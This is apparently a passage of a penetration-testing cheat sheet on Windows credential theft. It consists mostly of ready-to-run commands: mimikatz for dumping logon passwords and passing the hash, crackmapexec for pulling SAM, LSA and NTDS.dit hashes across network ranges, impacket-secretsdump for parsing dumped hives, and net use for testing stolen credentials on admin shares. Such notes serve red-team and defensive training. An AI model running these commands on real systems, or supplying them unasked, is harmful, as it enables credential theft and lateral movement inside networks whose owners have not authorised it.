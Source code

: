 * [mimikatz](https://github.com/gentilkiwi/mimikatz) (get packaged binaries [here](https://github.com/gentilkiwi/mimikatz/releases))
``` bat
:: ensure you have appropriate privileges
mimikatz # privilege::debug

:: simple grab
mimikatz # sekurlsa::logonpasswords

:: passing the hash
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<ntlmhash>

:: grab in-memory credentials across a network range
.\crackmapexec smb <ip>/<cidr> -u <username> -p <password> -M mimikatz
```

* `crackmapexec` show options for a module
``` sh
crackmapexec -M <modulename> --show-options
```

* `crackmapexec` dumps via [secretsdump.py](https://github.com/CoreSecurity/impacket/blob/master/examples/secretsdump.py)
``` sh
# SAM
crackmapexec smb <ip>/<cidr> -u <username> -p <password> --sam

# LSA
crackmapexec smb <ip>/<cidr> -u <username> -p <password> --lsa

# NTDS.dit
crackmapexec smb <ip>/<cidr> -u <username> -p <password> --ntds
crackmapexec smb <ip>/<cidr> -u <username> -p <password> --ntds vss
crackmapexec smb <ip>/<cidr> -u <username> -p <password> --ntds-history
crackmapexec smb <ip>/<cidr> -u <username> -p <password> --ntds-pwdLastSet
```

* Pulling credentials from a dumped hive
```sh
impacket-secretsdump -ntds <ntdsfile> -system <systemfile> LOCAL
```

* Testing credentials natively
``` bat
:: test smb connection
net use \\<ip> /user:<domain>\<username> <password>

:: see if we can view an admin share
dir \\<ip>\c$

:: view open sessions
net session

:: terminate our open sessions
net use /delete *
```
